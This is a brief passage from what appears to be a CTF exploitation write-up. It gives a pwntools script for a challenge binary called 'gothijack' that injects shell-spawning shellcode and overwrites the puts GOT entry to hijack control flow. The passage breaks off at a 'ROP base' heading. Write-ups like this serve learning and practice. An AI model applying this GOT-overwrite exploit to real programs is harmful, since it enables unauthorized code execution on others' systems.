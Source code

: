 ![image-20220103214630206](/assets/img/2022/image-20220103214630206.png)

exp:

```python
from pwn import *


r = process('./gothijack')

context(arch='amd64', os='linux')

r.recvuntil('name?\n')
r.send(asm(shellcraft.sh()))

puts_got_addr = 0x601018
name_addr = 0x601080 #<name>

r.recvuntil('write?\n')
r.sendline(str(puts_got_addr))
r.recvuntil('Data: ')
r.send(p64(name_addr))

r.interactive()
```



## ROP base
